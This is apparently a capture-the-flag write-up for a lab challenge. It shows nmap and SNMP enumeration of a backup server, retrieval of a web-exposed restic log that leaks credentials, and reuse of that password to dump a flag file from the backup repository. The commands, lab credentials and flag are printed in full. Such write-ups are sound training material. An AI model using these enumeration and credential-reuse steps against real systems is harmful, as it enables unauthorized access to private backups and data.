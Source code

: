 # Admin Johnson (3 points)

Hi, TCC-CSIRT analyst,

admin Johnson began testing backup procedures on server
`johnson-backup.cypherfix`.tcc, but left the process incomplete due to other
interesting tasks. Your task is to determine whether the current state is
exploitable.

See you in the next incident!

## Hints

* Admin Johnson is not strong on maintaining password hygiene.

## Solution

To start with, let's use `nmap` to see what is listening on the server.

```console
$ nmap -p - johnson-backup.cypherfix.tcc -sV
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-07 17:37 CEST
Stats: 0:00:20 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 0.00% done
Nmap scan report for johnson-backup.cypherfix.tcc (10.99.24.30)
Host is up (0.025s latency).
Not shown: 65533 closed tcp ports (reset)
PORT    STATE SERVICE VERSION
80/tcp  open  http    Apache httpd 2.4.61 ((Debian))
199/tcp open  smux    Linux SNMP multiplexer
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

As the SNMP port is open, we can use `snmpwalk` to explore further.

```console
$ snmpwalk -v1 -cpublic johnson-backup.cypherfix.tcc
iso.3.6.1.2.1.25.4.2.1.1.1 = INTEGER: 1
iso.3.6.1.2.1.25.4.2.1.1.7 = INTEGER: 7
iso.3.6.1.2.1.25.4.2.1.1.8 = INTEGER: 8
iso.3.6.1.2.1.25.4.2.1.1.9 = INTEGER: 9
iso.3.6.1.2.1.25.4.2.1.1.12 = INTEGER: 12
iso.3.6.1.2.1.25.4.2.1.1.16 = INTEGER: 16
iso.3.6.1.2.1.25.4.2.1.1.20 = INTEGER: 20
iso.3.6.1.2.1.25.4.2.1.1.28 = INTEGER: 28
iso.3.6.1.2.1.25.4.2.1.1.38 = INTEGER: 38
iso.3.6.1.2.1.25.4.2.1.1.39 = INTEGER: 39
iso.3.6.1.2.1.25.4.2.1.1.8958 = INTEGER: 8958
iso.3.6.1.2.1.25.4.2.1.2.1 = STRING: "supervisord"
iso.3.6.1.2.1.25.4.2.1.2.7 = STRING: "apache2ctl"
iso.3.6.1.2.1.25.4.2.1.2.8 = STRING: "cron"
iso.3.6.1.2.1.25.4.2.1.2.9 = STRING: "snmpd"
iso.3.6.1.2.1.25.4.2.1.2.12 = STRING: "cron"
iso.3.6.1.2.1.25.4.2.1.2.16 = STRING: "sh"
iso.3.6.1.2.1.25.4.2.1.2.20 = STRING: "restic.sh"
iso.3.6.1.2.1.25.4.2.1.2.28 = STRING: "apache2"
iso.3.6.1.2.1.25.4.2.1.2.38 = STRING: "apache2"
iso.3.6.1.2.1.25.4.2.1.2.39 = STRING: "apache2"
iso.3.6.1.2.1.25.4.2.1.2.8958 = STRING: "sleep"
iso.3.6.1.2.1.25.4.2.1.3.1 = OID: ccitt.0
iso.3.6.1.2.1.25.4.2.1.3.7 = OID: ccitt.0
iso.3.6.1.2.1.25.4.2.1.3.8 = OID: ccitt.0
iso.3.6.1.2.1.25.4.2.1.3.9 = OID: ccitt.0
iso.3.6.1.2.1.25.4.2.1.3.12 = OID: ccitt.0
iso.3.6.1.2.1.25.4.2.1.3.16 = OID: ccitt.0
iso.3.6.1.2.1.25.4.2.1.3.20 = OID: ccitt.0
iso.3.6.1.2.1.25.4.2.1.3.28 = OID: ccitt.0
iso.3.6.1.2.1.25.4.2.1.3.38 = OID: ccitt.0
iso.3.6.1.2.1.25.4.2.1.3.39 = OID: ccitt.0
iso.3.6.1.2.1.25.4.2.1.3.8958 = OID: ccitt.0
iso.3.6.1.2.1.25.4.2.1.4.1 = STRING: "/usr/bin/python3"
iso.3.6.1.2.1.25.4.2.1.4.7 = STRING: "/bin/sh"
iso.3.6.1.2.1.25.4.2.1.4.8 = STRING: "/usr/sbin/cron"
iso.3.6.1.2.1.25.4.2.1.4.9 = STRING: "/usr/sbin/snmpd"
iso.3.6.1.2.1.25.4.2.1.4.12 = STRING: "/usr/sbin/CRON"
iso.3.6.1.2.1.25.4.2.1.4.16 = STRING: "/bin/sh"
iso.3.6.1.2.1.25.4.2.1.4.20 = STRING: "/bin/bash"
iso.3.6.1.2.1.25.4.2.1.4.28 = STRING: "/usr/sbin/apache2"
iso.3.6.1.2.1.25.4.2.1.4.38 = STRING: "/usr/sbin/apache2"
iso.3.6.1.2.1.25.4.2.1.4.39 = STRING: "/usr/sbin/apache2"
iso.3.6.1.2.1.25.4.2.1.4.8958 = STRING: "sleep"
iso.3.6.1.2.1.25.4.2.1.5.1 = STRING: "/usr/bin/supervisord"
iso.3.6.1.2.1.25.4.2.1.5.7 = STRING: "/usr/sbin/apache2ctl -D FOREGROUND"
iso.3.6.1.2.1.25.4.2.1.5.8 = STRING: "-f"
iso.3.6.1.2.1.25.4.2.1.5.9 = STRING: "-f"
iso.3.6.1.2.1.25.4.2.1.5.12 = STRING: "-f"
iso.3.6.1.2.1.25.4.2.1.5.16 = STRING: "-c /etc/scripts/restic.sh >> /var/www/html/3cde480a8572719b9b33acb1257c6361/restic.err.log 2>&1"
iso.3.6.1.2.1.25.4.2.1.5.20 = STRING: "/etc/scripts/restic.sh"
iso.3.6.1.2.1.25.4.2.1.5.28 = STRING: "-D FOREGROUND"
iso.3.6.1.2.1.25.4.2.1.5.38 = STRING: "-D FOREGROUND"
iso.3.6.1.2.1.25.4.2.1.5.39 = STRING: "-D FOREGROUND"
iso.3.6.1.2.1.25.4.2.1.5.8958 = STRING: "86400"
iso.3.6.1.2.1.25.4.2.1.6.1 = INTEGER: 4
iso.3.6.1.2.1.25.4.2.1.6.7 = INTEGER: 4
iso.3.6.1.2.1.25.4.2.1.6.8 = INTEGER: 4
iso.3.6.1.2.1.25.4.2.1.6.9 = INTEGER: 4
iso.3.6.1.2.1.25.4.2.1.6.12 = INTEGER: 4
iso.3.6.1.2.1.25.4.2.1.6.16 = INTEGER: 4
iso.3.6.1.2.1.25.4.2.1.6.20 = INTEGER: 4
iso.3.6.1.2.1.25.4.2.1.6.28 = INTEGER: 4
iso.3.6.1.2.1.25.4.2.1.6.38 = INTEGER: 4
iso.3.6.1.2.1.25.4.2.1.6.39 = INTEGER: 4
iso.3.6.1.2.1.25.4.2.1.6.8958 = INTEGER: 4
iso.3.6.1.2.1.25.4.2.1.7.1 = INTEGER: 2
iso.3.6.1.2.1.25.4.2.1.7.7 = INTEGER: 2
iso.3.6.1.2.1.25.4.2.1.7.8 = INTEGER: 2
iso.3.6.1.2.1.25.4.2.1.7.9 = INTEGER: 1
iso.3.6.1.2.1.25.4.2.1.7.12 = INTEGER: 2
iso.3.6.1.2.1.25.4.2.1.7.16 = INTEGER: 2
iso.3.6.1.2.1.25.4.2.1.7.20 = INTEGER: 2
iso.3.6.1.2.1.25.4.2.1.7.28 = INTEGER: 2
iso.3.6.1.2.1.25.4.2.1.7.38 = INTEGER: 2
iso.3.6.1.2.1.25.4.2.1.7.39 = INTEGER: 2
iso.3.6.1.2.1.25.4.2.1.7.8958 = INTEGER: 2
End of MIB
```

We can see restic backup script being executed and storing its output to
`/var/www/html/3cde480a8572719b9b33acb1257c6361/restic.err.log`, i.e. to
the directory mapped to a web server. Let's retrieve those logs.

```console
$ curl http://johnson-backup.cypherfix.tcc/3cde480a8572719b9b33acb1257c6361/restic.err.log
restic -r rest:http://johnson:KGDkjgsdsdg883hhd@restic-server.cypherfix.tcc:8000/test check
using temporary cache in /tmp/restic-check-cache-1940938965
create exclusive lock for repository
Save(<lock/340d752ce5>) returned error, retrying after 552.330144ms: server response unexpected: 500 Internal Server Error (500)
Save(<lock/340d752ce5>) returned error, retrying after 1.080381816s: server response unexpected: 500 Internal Server Error (500)
Save(<lock/340d752ce5>) returned error, retrying after 1.31013006s: server response unexpected: 500 Internal Server Error (500)
Save(<lock/340d752ce5>) returned error, retrying after 1.582392691s: server response unexpected: 500 Internal Server Error (500)
Save(<lock/340d752ce5>) returned error, retrying after 2.340488664s: server response unexpected: 500 Internal Server Error (500)
Save(<lock/340d752ce5>) returned error, retrying after 4.506218855s: server response unexpected: 500 Internal Server Error (500)
Save(<lock/340d752ce5>) returned error, retrying after 3.221479586s: server response unexpected: 500 Internal Server Error (500)
Save(<lock/340d752ce5>) returned error, retrying after 5.608623477s: server response unexpected: 500 Internal Server Error (500)
Save(<lock/340d752ce5>) returned error, retrying after 7.649837917s: server response unexpected: 500 Internal Server Error (500)
Save(<lock/340d752ce5>) returned error, retrying after 15.394871241s: server response unexpected: 500 Internal Server Error (500)
server response unexpected: 500 Internal Server Error (500)
github.com/restic/restic/internal/backend/rest.(*Backend).Save
        github.com/restic/restic/internal/backend/rest/rest.go:167
github.com/restic/restic/internal/backend.(*RetryBackend).Save.func1
        github.com/restic/restic/internal/backend/backend_retry.go:66
github.com/cenkalti/backoff.RetryNotifyWithTimer
        github.com/cenkalti/backoff/retry.go:55
github.com/cenkalti/backoff.RetryNotify
        github.com/cenkalti/backoff/retry.go:34
github.com/restic/restic/internal/backend.(*RetryBackend).retry
        github.com/restic/restic/internal/backend/backend_retry.go:46
github.com/restic/restic/internal/backend.(*RetryBackend).Save
        github.com/restic/restic/internal/backend/backend_retry.go:60
github.com/restic/restic/internal/cache.(*Backend).Save
        github.com/restic/restic/internal/cache/backend.go:59
github.com/restic/restic/internal/repository.(*Repository).SaveUnpacked
        github.com/restic/restic/internal/repository/repository.go:488
github.com/restic/restic/internal/restic.SaveJSONUnpacked
        github.com/restic/restic/internal/restic/json.go:31
github.com/restic/restic/internal/restic.(*Lock).createLock
        github.com/restic/restic/internal/restic/lock.go:161
github.com/restic/restic/internal/restic.newLock
        github.com/restic/restic/internal/restic/lock.go:105
github.com/restic/restic/internal/restic.NewExclusiveLock
        github.com/restic/restic/internal/restic/lock.go:73
main.lockRepository
        github.com/restic/restic/cmd/restic/lock.go:42
main.lockRepoExclusive
        github.com/restic/restic/cmd/restic/lock.go:27
main.runCheck
        github.com/restic/restic/cmd/restic/cmd_check.go:212
main.glob..func5
        github.com/restic/restic/cmd/restic/cmd_check.go:37
github.com/spf13/cobra.(*Command).execute
        github.com/spf13/cobra/command.go:916
github.com/spf13/cobra.(*Command).ExecuteC
        github.com/spf13/cobra/command.go:1044
github.com/spf13/cobra.(*Command).Execute
        github.com/spf13/cobra/command.go:968
main.main
        github.com/restic/restic/cmd/restic/main.go:98
runtime.main
        runtime/proc.go:250
runtime.goexit
        runtime/asm_amd64.s:1594
unable to create lock in backend
```

The logs reveal that the username `johnson` and the password
`KGDkjgsdsdg883hhd` is being used to log in to
`restic-server.cypherfix.tcc:8000`.

The logs also indicate, that there's an error when creating an exclusive lock
for the repository, so if we try to retrieve the backup using the same command,
we'll face the same issue. However, restic client allows us to execute
operations also without the locks (`--no-lock` option), so we can try to list
the repository content.

In addition to that, we'll be prompted for the password for repository, but
since the hint indicates that the password hygiene is not strong, we can try to
use the same password as for REST API, only to find out that it works. For
easier manipulation (i.e. so that we don't need to re-type it every time), we
can store it in `restic_pass.txt`.

After these 2 steps, we can see the list of available files.

```console
$ restic -r rest:http://johnson:KGDkjgsdsdg883hhd@restic-server.cypherfix.tcc:8000/test --no-lock -p restic_pass.txt ls latest
repository 4c59d415 opened (version 2, compression level auto)
[0:00] 100.00%  1 / 1 index files loaded
snapshot 84e8d815 of [/etc/secret] at 2024-08-08 08:58:38.365981379 +0000 UTC by root@4d6c9220e986 filtered by []:
/etc
/etc/secret
/etc/secret/flag
```

The result shows us that the flag is hidden in `etc/secret/flag` file, which we
can now easily retrieve.

```console
$ restic -r rest:http://johnson:KGDkjgsdsdg883hhd@restic-server.cypherfix.tcc:8000/test --no-lock -p restic_pass.txt dump latest /etc/secret/flag
repository 4c59d415 opened (version 2, compression level auto)
[0:00] 100.00%  1 / 1 index files loaded
FLAG{OItn-zKZW-cht7-RNH4}
```
